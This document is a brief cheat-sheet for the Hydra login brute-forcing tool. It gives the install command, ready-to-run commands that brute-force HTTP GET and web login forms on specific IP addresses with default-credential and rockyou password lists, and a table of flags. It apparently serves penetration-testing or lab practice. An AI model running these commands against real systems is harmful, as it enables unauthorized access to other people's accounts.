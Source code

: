 # [Hydra](https://github.com/vanhauser-thc/thc-hydra)
***
#### Hydra is a reliable tool for Login Brute Forcing. It can fuzz any pair of credentials and perform a fast verification of success. 

### Installation
```shell
$ apt install hydra -y
```

### Example: Login Brute Force using Default Credentials wordlist
```shell
$ hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 170.111.111.2 -s 1337 http-get /
```

### Example using one wordlist for username and password
```shell
$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 170.111.111.2 -s 1337 http-get /
```

### Example login form with known username
```shell
$ hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```



### Useful flags
* -C : Specify Wordlist
* SERVER_IP : Target IP
* -s PORT   : Target Port
* http-<METHOD> : Specify request Method
* /          : Target Path
* -L/-l        : Specify Usernames wordlist / static username
* -P/-p        : Specify Passwords wordlist / static password
* -f        : Stop after successful login
* -u        : Try all users on each password, instead of all passwords in one user
* -t        : Specify number of threads


